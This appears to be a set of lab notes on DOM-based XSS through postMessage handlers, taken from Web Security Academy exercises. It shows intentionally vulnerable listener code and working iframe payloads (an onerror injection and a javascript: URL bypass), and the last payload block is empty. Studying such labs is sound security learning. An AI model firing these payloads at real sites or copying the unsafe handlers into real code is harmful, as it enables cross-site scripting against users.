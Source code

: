 # DOM-based Vulnerability

### DOM XSS using web messages
* Vulnerable Code - `addEventListener()` listens for a web message
```html
<!-- Ads to be inserted here -->
<div id='ads'>
</div>
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```
* Payload - By adding a wrong `src` and `enerror=` function will cause `print()`
```html
<iframe src="https://ac7e1f1c1f3ed2d1c06281a0005800be.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

### DOM XSS using web messages and a JavaScript URL
* Vulnerable Code - `indexOf` looks for http: or https: in the message body
```html
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```
* Payload
```html
<iframe src="https://acf31f5e1e1ff65ec0851f1800fc00fa.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">
```

### DOM XSS using web messages and JSON.parse
* Vulnerable Code
```html
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```
* Payload
```html

```